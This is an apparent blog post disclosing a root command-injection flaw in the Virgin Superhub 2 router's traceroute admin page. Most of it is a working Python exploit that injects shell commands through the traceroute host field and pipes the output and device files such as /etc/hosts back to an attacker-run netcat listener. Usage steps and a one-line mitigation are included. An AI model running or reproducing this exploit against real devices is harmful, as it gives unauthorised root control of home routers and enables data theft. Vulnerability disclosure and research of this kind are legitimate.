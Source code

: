 ```yaml
---
layout: post
title: Virgin Superhub 2 Remote Command Execution as Root
tag: 
---
```


I recently read the writeup on the [Virgin Superhub 7 second bootup flaw ](http://ramblingrant.co.uk/2014/03/06/virgin-media-superhub-7-second-security-flaw), this motivated me to post a remote command execution vulnerability that I found a while back.

The vulnerability occurs in the traceroute feature in the admin panel. It executes the shell command traceroute, where the user controls IP address, so the attacker can escape the shell command and execute any command they want – as root, no privilege escalation necessary. For example we control the host variable in the pseudo code for the traceroute function below.

# Pseudo Code

`exec("traceroute " + host + " " + arguments)`

To make it easier exploiting this I have written a shell script that emulates a terminal by sending the results of the commands to a listener using netcat.	


```
import requests
import socket
import re
import json
ip = ‘192.168.0.8’
port = 9991
file_port = 9992
size = 1024
host = ”
backlog = 5

def getToken():
regex = ‘<input type="hidden" name="(.*)" value’
content = requests.get(‘http://192.168.0.1/VmRgTraceRoute.html’).text
token = re.findall(regex,content)
return token[4]

def postRequest(token, cmd):
data = {"VmCheckRun": 0, "VmCheckContent":1,"VmTraceRouteHost": cmd, "VmTraceRouteToolCommand": 1, "VmTraceRouteStats": "pwned", token : 0}
r = requests.post("http://192.168.0.1/cgi-bin/TraceRouteCgi",data=data)

def processCMD(cmd):
token = getToken()
cmd = ";export test1=`" + cmd + "`; echo $test1 | nc " + ip + " " + str(port) + " ; echo lol"
postRequest(token,cmd)

def getFile(filename):
finished =0
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.bind((host,file_port))
s.listen(backlog)
cmd = ";nc " + ip + " " + str(file_port) + " < " + filename + "; echo"
token = getToken()
postRequest(token,cmd)
while finished ==0:
client, address = s.accept()
data = client.recv(500000)
if data:
print data
client.close()
s.shutdown(socket.SHUT_WR)
s.close()
finished = 1

def listenSocket():
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.bind((host,port))
s.listen(backlog)
while 1:
cmd = raw_input("> ")
if "getfile" in cmd:
print cmd.split(" ")[1]
getFile(cmd.split(" ")[1])
else:
processCMD(cmd)
client, address = s.accept()
data = client.recv(size)

if data:
print data
client.close()

listenSocket()
```

# Usage

 Ensure you are logged into the device admin panel. Edit the python script and replace the IP and port with your local IP and port, this must be allowed through your firewall because you need to listen to read the result of your commands.

```
python routerexploit.py

ls # type any command to execute shell command on device

getfile /etc/hosts # type "getfile" to download file from device
```

# Mitigation

Simply change the admin panel password, an attacker needs to be authenticated to exploit this bug.

# Future Work

 Using this exploit you can pull the custom binaries off the device and look for more bugs and backdoors. You could also use this to attempt to port custom firmware such as dd-wrt to this device.